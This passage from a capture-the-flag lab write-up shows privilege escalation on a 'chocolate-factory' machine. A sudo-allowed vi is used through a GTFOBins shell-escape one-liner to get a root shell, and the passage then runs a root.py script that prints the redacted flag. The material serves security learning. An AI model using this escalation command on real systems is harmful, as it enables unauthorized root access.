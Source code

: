 It can be seen that "charlie" can run `/usr/bin/vi` with `sudo` privilege. So, we can head over to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) and use the command mentioned over there to gain access as `root` using the `/usr/bin/vi` command.

```bash
charlie@chocolate-factory:/$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
```

But in the `/root` directory, we do not find any `root.txt` file but we can see a `root.py` file.

```bash
# ls -la
total 40
drwx------  6 root    root    4096 Oct  7  2020 .
drwxr-xr-x 24 root    root    4096 Sep  1  2020 ..
-rw-------  1 root    root       0 Oct  7  2020 .bash_history
-rw-r--r--  1 root    root    3106 Apr  9  2018 .bashrc
drwx------  3 root    root    4096 Oct  1  2020 .cache
drwx------  3 root    root    4096 Sep 30  2020 .gnupg
drwxr-xr-x  3 root    root    4096 Sep 29  2020 .local
-rw-r--r--  1 root    root     148 Aug 17  2015 .profile
-rwxr-xr-x  1 charlie charley  491 Oct  1  2020 root.py
-rw-r--r--  1 root    root      66 Sep 30  2020 .selected_editor
drwx------  2 root    root    4096 Sep  1  2020 .ssh
# python root.py
Enter the key:  
```

When we try to run it, it asks for a key. If we recall we had found one such key from the `key_rev_key` in the `/var/www/html` directory. We can use try to use that key over here.

```
# python root.py
Enter the key:  
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
 \____|_| |_|\___/ \___\___/|_|\__,_|\__\___|
                                             
 _____          _                    
|  ___|_ _  ___| |_ ___  _ __ _   _  
| |_ / _` |/ __| __/ _ \| '__| | | | 
|  _| (_| | (__| || (_) | |  | |_| | 
|_|  \__,_|\___|\__\___/|_|   \__, | 
                              |___/  

flag{*********************************}
```